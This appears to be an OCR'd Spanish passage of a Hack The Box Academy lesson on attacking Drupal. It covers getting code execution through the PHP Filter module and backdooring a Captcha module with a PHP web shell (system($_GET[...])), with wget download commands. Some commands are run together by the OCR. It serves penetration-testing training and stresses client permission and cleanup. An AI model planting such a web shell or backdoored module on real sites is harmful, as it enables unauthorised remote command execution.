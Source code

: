 Desde la versión 8 en adelante, el[Filtro PHP](https://www.drupal.org/project/php/releases/8.x-1.1)El módulo no está instalado de forma predeterminada. Para aprovechar esta funcionalidad, tendríamos que instalar el módulo nosotros mismos. Como estaríamos cambiando y agregando algo a la instancia de Drupal del cliente, es posible que deseemos consultar con ellos primero. Comenzaríamos descargando la versión más reciente del módulo desde el sitio web de Drupal.

Atacando a Drupal

```
xnoxos@htb[/htb]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Una vez descargado, vaya a`Administration` > `Reports` > `Available updates`.

Nota: La ubicación puede diferir según la versión Drupal y puede estar en el menú Extender.

![](https://academy.hackthebox.com/storage/modules/113/install_module.png)

Desde aquí, haga clic en`Browse,`Seleccione el archivo del directorio al que lo descargamos y luego haga clic en`Install`.

Una vez que se instala el módulo, podemos hacer clic en`Content`y cree una nueva página básica, similar a cómo lo hicimos en el ejemplo de Drupal 7. De nuevo, asegúrese de seleccionar`PHP code`desde`Text format`desplegable.

Con cualquiera de estos ejemplos, debemos mantener a nuestro cliente informado y obtener permiso antes de hacer este tipo de cambios. Además, una vez que hayamos terminado, debemos eliminar o deshabilitar el`PHP Filter`Módulo y elimine las páginas que creamos para obtener la ejecución de código remoto.

---

# **Subiendo un módulo trasero**

Drupal permite a los usuarios con permisos apropiados cargar un nuevo módulo. Se puede crear un módulo trasero agregando un shell a un módulo existente. Los módulos se pueden encontrar en el sitio web Drupal.org. Elegamos un módulo como[Captcha](https://www.drupal.org/project/captcha). Desplácese hacia abajo y copie el enlace para el tar.gz[archivo](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

Descargue el archivo y extraiga su contenido.

Atacando a Drupal

```
xnoxos@htb[/htb]$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gzxnoxos@htb[/htb]$ tar xvf captcha-8.x-1.2.tar.gz
```

Cree un shell web PHP con el contenido:

Código:php

```php
<?phpsystem($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
